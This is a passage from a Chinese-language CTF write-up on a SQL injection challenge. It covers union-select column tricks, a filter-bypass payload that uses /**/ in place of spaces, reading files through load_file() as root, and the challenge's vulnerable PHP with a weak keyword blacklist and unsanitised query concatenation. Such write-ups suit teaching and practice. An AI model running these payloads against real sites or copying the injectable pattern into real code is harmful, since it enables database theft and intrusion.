 同时查询多个列

```
select concat(b,0x2d,c) from (select 1,2 as b,3 as c,4,5 union select * from `table`)a;
```

`0x2d`为`-`

![concat](mardasctf/image-20210329202408382.png)

---

回到正题，查到`f1agdas`表里有个`flag.txt`，应该是利用`load_file()`函数读取文件，查了下用户

```sql
-1"union/**/select/**/1,user(),3"

# user==========>'root'@'localhost'
```

肯定有权限了，读了`index.php`和`dbConnect.php`，给复现的师傅参考

```php
// index.php
<?php
    error_reporting(0);
    include 'dbConnect.php';
    $query = $_GET['query'];
    $blacklist = [' ', '\'', 'flag', 'delete', 'drop', 'update'];
    foreach ($blacklist as $item){
        if (preg_match("/".$item."/i", $query)){
            die('Forbidden!!!');
        }
    }
    if (isset($_GET['query'])) {
        $sql = "SELECT * FROM users WHERE id = '$query' OR username = \"$query\"";
        $result = $mysqli->query($sql);
        $data = $result->fetch_all();
        echo "<table border='1' width='600px' cellpadding='0' cellspacing='0'  align='center' style='margin-top: 20px; margin-left: 33%'><tr><th>ID</th><th>UserName</th></tr>";
        if (!empty($data)) {
            foreach ($data as $k){
                if (empty($k)){

                }else{
                    echo "<tr><td>{$k[0]}</td><td>{$k[1]}</td></tr>";
                }
            }
        }
        echo "</table>";
    }
?>
```
